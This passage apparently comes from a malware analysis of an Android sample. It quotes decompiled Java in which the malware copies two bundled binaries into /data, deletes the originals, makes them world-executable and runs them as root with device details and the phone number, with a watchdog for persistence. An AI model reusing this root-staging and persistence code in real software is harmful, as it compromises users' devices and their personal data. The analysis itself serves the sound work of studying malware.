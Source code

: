 >		return false;
>	}
>	catch (Exception e){
>		try{
>			new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(this.context)).delete();
>			new File(Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(this.context)).delete();
>			return false;
>		}
>		catch (Exception e) {}
>	}
>	return false;
>}
> ```

The malware loads two binaries (located in res/raw/) and executes them. The first one, `aps_exec`, handles communication with the server, whereas `aps_exec_watch_dog` ensures
the persistency of `aps_exec`.

The routine `RootCommandExecutor.Execute` is as follows:

> ```java
>public static boolean Execute(Context context) {
>	Command command = new Command(0, new String[]{
>		"cat " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(context) + " > /data/" + Utilities.GetWatchDogName(context),
>		"cat " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(context) + " > /data/" + Utilities.GetExecName(context),
>		"rm " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetWatchDogName(context),
>		"rm " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExecName(context),
>		"chmod 777 /data/" + Utilities.GetWatchDogName(context),
>		"chmod 777 /data/" + Utilities.GetExecName(context),
>		"/data/" + Utilities.GetWatchDogName(context) + " " + Utilities.GetDeviceInfoCommandLineArgs(context) + " /data/" + Utilities.GetExecName(context) + " " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + Utilities.GetExchangeFileName(context) + " " + Environment.getExternalStorageDirectory().getAbsolutePath() + File.separator + " " + Utilities.GetPhoneNumber(context)});
>	try {
>		RootTools.getShell(true).add(command);
>		return true;
>	} catch (Exception e) {
>		Log.d("CPS", e.getMessage());
>	}
>	return false;
>}
> ```

We can see that binaries a copied in the directory `data`, removed from the external storage, and then executed.
